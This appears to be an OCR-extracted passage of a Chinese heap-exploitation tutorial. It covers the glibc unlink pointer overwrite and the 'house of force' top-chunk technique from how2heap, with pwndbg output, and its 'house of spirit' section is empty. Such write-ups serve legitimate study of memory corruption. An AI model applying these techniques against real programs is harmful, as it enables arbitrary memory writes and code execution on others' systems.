 ```
    绕过检查
*/
{
	FD->bk = BK;                // FD->bk = &ptr - 0x8; ptr == &ptr - 0x8;
	BK->fd = FD;                 // BK->fd = &ptr - 0xc; ptr == &ptr - 0xc;
}
/*
最后ptr = &ptr - 0xc
*/
```

## 0x05 house of spirit

## 0x09 house of force

我们知道os中存在一个top chunk用来在分配堆块，当我们的bins中不存在合适的堆块时，从top chunk中来切割出合适大小的堆块已分配给用户。

这里我们来看`how2heap`中给出的demo

首先我们定义一个全局变量`bss_var`，值为`This is a string that we want to overwrite.`

我们查看下他的地址为`0x602060`
```
pwndbg> p &bss_var 
$3 = (char (*)[44]) 0x602060 <bss_var>
```

然后我们分配一个大小256堆块，地址为`0x7fffffffdec8`
```
pwndbg> p &p1
$4 = (intptr_t **) 0x7fffffffdec8
```
由于已使用中的chunk要加上8byte的`prev_size`和8byte的`size`

所以真实的chunk的起始地址为`0x603410`
此时我们查看堆的地址如下
```
pwndbg> heap 
Top Chunk: 0x603520
Last Remainder: 0

0x603000 PREV_INUSE {
  prev_size = 0, 
  size = 1041, 
  fd = 0x20706f7420656854, 
  bk = 0x7473206b6e756863, 
  fd_nextsize = 0x2074612073747261, 
  bk_nextsize = 0x3832353330367830
}
0x603410 PREV_INUSE {
  prev_size = 0, 
  size = 273, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
0x603520 PREV_INUSE {
  prev_size = 0, 
  size = 133857, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
```